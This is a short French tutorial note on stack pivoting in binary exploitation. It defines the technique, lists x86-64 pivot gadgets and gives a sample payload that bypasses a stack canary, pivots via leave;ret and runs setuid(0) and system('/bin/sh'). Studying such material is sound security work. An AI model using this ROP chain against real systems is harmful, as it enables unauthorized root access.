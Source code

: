 
***Définition***:
	Le stack pivoting est une technique qui permet de gagner de l'espace lorsque celui qui est disponible est trop faible. Le stack pivoting permet de prendre le contrôle de RSP pour le rediriger vers une **zone mémoire contrôlée** afin dexécuter des chaînes ROP longues et complexes même si l'espace dans la pile d’origine est trop limité.

--- 

 **Gadgets utiles au Stack Pivoting**:
	 Les gadgets sont des petites séquences d'instructions dans le binaire (ou dans des bibliothèques) qui permettent de manipuler les registres et la pile. Quelques gadgets typiques pour faire du stack pivoting  :

- `mov rsp, rax ; ret`  
    (si `RAX` pointe vers la fausse pile)
    
- `xchg rsp, rax ; ret`
    
- `pop rsp ; ret`
    
- `leave ; ret`  
    (équivaut à `mov rsp, rbp` puis `pop rbp`)


***Exemple***: 

```c
payload = b"".join([
    b"PRINTS ",
    p64(SETUID),
    p64(0),
    p64(SETUID), 
    p64(POP_RDI),
    p64(BINSH),
    p64(SYSTEM),               
    b"A" * (272 - 8 -8  - 16 - 16 -8 ),  # Padding jusqu'au canary
    p64(canary),     # Canary   
    p64(rbp-0X20),   # Nouveau RBP pour le pivot
    p64(leave_ret),  # leave;ret de libc
   
    p64(POP_RDI),    # pop rdi
    p64(0),          # setuid(0)
    p64(SETUID),     # setuid
    p64(POP_RDI),    # pop rdi
    p64(BINSH),      # /bin/sh
    p64(SYSTEM)    # system
])
```
